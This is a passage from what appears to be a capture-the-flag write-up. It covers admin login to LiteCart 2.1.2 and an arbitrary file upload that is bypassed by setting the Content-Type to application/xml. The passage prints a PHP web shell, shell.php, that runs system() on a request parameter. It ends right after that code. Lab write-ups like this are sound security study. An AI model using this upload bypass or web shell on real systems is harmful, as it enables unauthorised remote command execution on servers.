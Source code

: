 And we successfully login as an admin.  
  

![4](/assets/images/compromised/4.png)

And also on the same page, I found the version of LiteCart is **2.1.2** which is vulnerable to arbitary file upload.  
  

![5](/assets/images/compromised/5.png)

## Running the exploit
Going through the exploit, I found that we could upload a New vQmod file which the webserver expects to be a xml file and also has some checks to ensure that but can be easily bypassed by changing the Content-Type to  **application/xml**. So let us upload a php file `shell.php`.
### Contents of shell.php
```php
<?php
echo "File is successfully uploaded";
echo system($_REQUEST['cmd']);
?>
```
